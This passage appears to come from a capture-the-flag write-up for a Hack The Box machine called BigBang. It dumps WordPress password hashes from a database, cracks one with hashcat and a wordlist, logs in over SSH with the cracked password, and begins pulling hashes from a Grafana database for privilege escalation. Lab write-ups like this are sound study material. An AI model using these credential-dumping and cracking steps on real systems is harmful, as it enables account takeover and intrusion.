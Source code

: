 Extract the content from `wp_users`.

```bash
# Command
use wordpress;

select user_pass,user_email,user_login from wp_users;

# Output
+------------------------------------+----------------------+------------+
| user_pass                          | user_email           | user_login |
+------------------------------------+----------------------+------------+
| $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 | root@bigbang.htb     | root       |
| $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ | shawking@bigbang.htb | shawking   |
+------------------------------------+----------------------+------------+
```

Crack the hash password of `shawking` with hashcat.

```bash
# Command
hashcat.exe -m 400 hashes.txt wordlists/rockyou.txt

# Output
$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./:quantumphysics
```

Log into the machine and get the flag
```bash
sshpass -p 'quantumphysics' ssh shawking@bigbang.htb

cat /home/shawking/user.txt
```

## Root exploit
Looking around, we find a `grafana.db` in the `/opt/data/` folder
```bash
shawking@bigbang:~$ ls -al /opt/data
total 1008
drwxr-xr-x 6 root root    4096 Apr 29 23:29 .
drwxr-xr-x 4 root root    4096 Jun  5  2024 ..
drwxr--r-- 2 root root    4096 Jun  5  2024 csv
-rw-r--r-- 1 root root 1003520 Apr 29 23:29 grafana.db
drwxr--r-- 2 root root    4096 Jun  5  2024 pdf
drwxr-xr-x 2 root root    4096 Jun  5  2024 plugins
drwxr--r-- 2 root root    4096 Jun  5  2024 png
```
Using [`grafana2hashcat`](https://github.com/iamaldi/grafana2hashcat), we get put the db into a format crackable by `hashcat`

The argument `hashes` needed to use `grafana2hashcat` is configured this way
> hashes      Input file holding the Grafana hashes in the 'hash,salt' format.

We can dump the content of the `user` table to gather the hash and the salt.
